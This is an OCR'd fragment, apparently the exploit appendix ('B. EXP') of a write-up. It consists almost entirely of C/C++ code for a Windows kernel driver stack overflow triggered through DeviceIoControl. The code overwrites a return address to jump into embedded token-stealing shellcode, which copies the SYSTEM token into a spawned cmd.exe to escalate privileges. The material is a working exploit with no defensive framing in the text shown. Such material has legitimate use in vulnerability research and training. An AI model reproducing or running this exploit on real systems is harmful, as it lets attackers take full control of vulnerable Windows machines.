 ### B. EXP

```bash
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x1000] = { 0 };
    char shellcode[256] = {
        0x50, 0x53, 0x51, 0x56, 0x57, 0x65, 0x48, 0x8b, 0x04, 0x25,
        0x88, 0x01, 0x00, 0x00, 0x48, 0x8b, 0x80, 0x20, 0x02, 0x00,
        0x00, 0x81, 0xb8, 0xe0, 0x02, 0x00, 0x00, 0x41, 0x41, 0x41,
        0x41, 0x74, 0x0f, 0x48, 0x8b, 0x80, 0xe8, 0x02, 0x00, 0x00,
        0x48, 0x2d, 0xe8, 0x02, 0x00, 0x00, 0xeb, 0xe5, 0x48, 0x89,
        0xc3, 0x83, 0xb8, 0xe0, 0x02, 0x00, 0x00, 0x04, 0x74, 0x0f,
        0x48, 0x8b, 0x80, 0xe8, 0x02, 0x00, 0x00, 0x48, 0x2d, 0xe8,
        0x02, 0x00, 0x00, 0xeb, 0xe8, 0x48, 0x8b, 0x88, 0x58, 0x03,
        0x00, 0x00, 0x48, 0x89, 0x8b, 0x58, 0x03, 0x00, 0x00, 0x5f,
        0x5e, 0x59, 0x5b, 0x58, 0x48, 0x83, 0xc4, 0x28, 0xc3, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff
    };

    DWORD oldProtect;
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;

    unsigned int size = 0x820;
    RtlFillMemory(stackspace, 0x810, 'A');
    *(unsigned long long*)(stackspace + 0x818) = (unsigned long long)shellcode;

    DWORD info = 0;

    VirtualProtect(shellcode, 256, PAGE_EXECUTE_READWRITE, &oldProtect);
    printf("[*] Spawning a new cmd.exe process\n");
    si.cb = sizeof(STARTUPINFOA);
    if (!CreateProcessA(NULL, (LPSTR)"cmd.exe", NULL, NULL, true, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi)) {
        printf("[!] FATAL: Error spawning cmd.exe\n");
        return;
    }

    printf("[*] Updating our shellcode to search for PID %d\n", pi.dwProcessId);
    *(DWORD*)((char*)shellcode + 27) = pi.dwProcessId;

    DeviceIoControl(hDevice, ioctl,
        stackspace, size,
        NULL, 0,
        &info, NULL);
    printf("info: %d\n", info);
    std::cout << "IO Complete\n";
}
```